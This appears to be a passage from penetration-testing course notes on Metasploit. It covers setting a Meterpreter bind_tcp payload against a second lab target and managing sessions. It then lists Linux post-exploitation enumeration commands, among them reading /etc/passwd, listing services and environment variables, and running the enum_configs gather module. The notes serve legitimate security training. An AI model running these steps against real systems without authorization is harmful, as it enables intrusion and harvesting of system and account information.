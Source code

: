 Searching on browser 127.0.0.1:1234 we can see website, but it's not rendering correctly, because it's not running on the target system.

Then, we can exploit vulnerabilities of target 2 and set bind tcp payload:

```bash
set payload windows/meterpreter/bind_tcp
```

**Bind TCP** refers to a program or service to listen for incoming connections on a specific network address (IP address) and port. It's a way to enable communication between devices over a network.

```bash
set RHOSTS IP_Victim-2 #ip target 2
set LPORT 4433 #different than the previous port, because it's occuped
```

and after exploit, it's a good thing rename session:

```bash
sessions -n victim-2 -i 2
```

## Linux PE Modules <a href="#linux-pe-modules" id="linux-pe-modules"></a>

Linux post exploitation MSF modules can be used to:

* Enumerate system configuration, environment variables, network configuration, user's history
* VM check

> 🔬 Check out the [Linux Post Exploitation with MSF Labs](https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/3-metasploit/linux-post-msf) with **post-exploitation** techniques for various _Unix services_.

After exploiting the target and starting Meterpreter Shell, we can explore info about target, f.e.:

```bash
sysinfo
getuid
cat /etc/passwd #if we're root user, to enumerate all users and services
groups name_user #find group name of specified account
cat /etc/*issue #release distribution version
uname -r #kernel version
uname -a #hostname, kernel and architecture version
ip a s #interfaces available
netstat -antp #services listening on open ports
ps aux #process running on the system
env #enumerate environment variables
sessions -u 1 #create a new meterpreter session
```

then, we can enumerate target with post exploitation modules:

* enum\_configs: enumerates linux configuration files.

```bash
search enum_configs
use post/linux/gather/enum_configs
```
